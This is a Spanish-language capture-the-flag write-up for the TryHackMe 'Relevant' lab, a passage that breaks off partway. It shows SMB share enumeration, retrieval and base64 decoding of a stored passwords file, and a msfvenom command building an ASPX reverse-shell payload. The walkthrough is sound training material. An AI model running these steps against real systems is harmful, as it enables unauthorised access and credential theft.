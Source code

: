 Al enumerar los recursos compartidos del servidor, podremos ver el recurso llamado **nt4wrksv**  al que podemos acceder sin contraseña, tal vez el recurso compartido y el subdirectorio estén vinculados.


```bash                                                                          
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Relevant]
└─$ smbclient \\\\10.10.20.130\\nt4wrksv
Enter WORKGROUP\temerio's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 5142549 blocks available

```
___

Vemos que el recurso compartido aloja en su interior un archivo llamado **passwords.txt** al cual podremos extraer hacia nuestra PC con el comando "get". Luego abriremos el mismo.

```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Relevant]
└─$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
___

A simple vista podemos ver que el texto esta Hardcodeado en base64 procedemos con la decodificacion de las strings.


```bash                                
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d              
Bob - !P@$$W0rD!123
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$    
```
Nos devolvio dos posibles usuarios y contraseñas la cual nos puede ayudar mas adelante.
___

## Local Privilege Escalation
___

*Aqui es importante crear la ReverseShell luego crear tu escucha desde Netcat para posteriormente subir el archivo creado al SMBclient concediendote el acceso a la maquina victima posterior a ejecutar la ReverseShell.*

Comenzamos creando la Shell Reverse mediante msfvenom y añadimos nuestro local host y el puerto a usar.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Relevant]
└─$ sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.20.130 LPORT=4545 -f aspx -o relv.aspx            1 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3392 bytes
Saved as: relv.aspx

```